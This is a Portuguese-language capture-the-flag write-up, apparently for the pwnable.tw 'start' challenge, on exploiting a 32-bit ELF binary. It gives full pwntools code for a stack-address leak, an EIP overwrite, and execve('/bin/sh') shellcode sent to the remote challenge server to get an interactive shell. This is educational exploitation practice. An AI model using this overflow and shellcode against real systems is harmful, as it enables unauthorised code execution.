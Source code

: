 # Exploit ELF32

Aqui eu vou te explicar o processo de exploração de uma vulnerabilidade em um binário ELF de 32 bits.
Lembrando que isso foi em um desafio de CTF.

## 1. Análise Inicial

Para iniciar a análise, foi utilizado o comando `file` para determinar que o binário era um executável ELF de 32 bits, estático e não depurado.

```bash
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

## 2. Disassembly e Identificação de Funções

Utilizando o `gdb`, foi realizada a desmontagem (_disassembly_) da função `_start` para entender o fluxo do programa.

```gdb
(gdb) disas _start
```

Aqui foi possível identificar as instruções iniciais que configuram os registradores e a pilha.

## 3. Definindo o Ponto de Interrupção

Um ponto de interrupção foi definido em `_start+57`, logo após a execução da interrupção `int $0x80` que realiza uma chamada ao sistema para escrever na saída padrão.

```gdb
(gdb) break *_start+57
(gdb) r
```

## 4. Explorando a Vulnerabilidade

O objetivo é manipular a execução para injetar e executar um shellcode.

### 4.1 Leak do Endereço da Pilha

Primeiro, precisamos vazar o endereço da pilha. Para isso, utilizamos o seguinte código:

```python
def leak(r):
    buf = b"A" * 20
    buf += p32(0x08048087)  # Endereço que aponta para o próximo push
    r.recvuntil(b'CTF:')
    r.send(buf)

    response = r.recv(4)
    esp = u32(response)
    print(f"[+] ESP is at {hex(esp)}")
    
    return esp
```

### 4.2 Envio do Payload

Com o endereço da pilha em mãos, preparamos o payload para injetar o shellcode na memória:

```python
def exploit(r, esp):
    buf = b"A" * 20
    eip = p32(esp + 20)

    # Shellcode para execução de `/bin/sh`
    shellcode = b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

    payload = buf + eip + shellcode
    
    print("[+] Sending Payload")
    r.send(payload)
    
    r.interactive()
```

## 5. Conexão e Exploração

Finalmente, criamos uma conexão com o serviço remoto e executamos o exploit:

```python
r = remote('chall.pwnable.tw', 10000)
esp = leak(r)
exploit(r, esp)
```
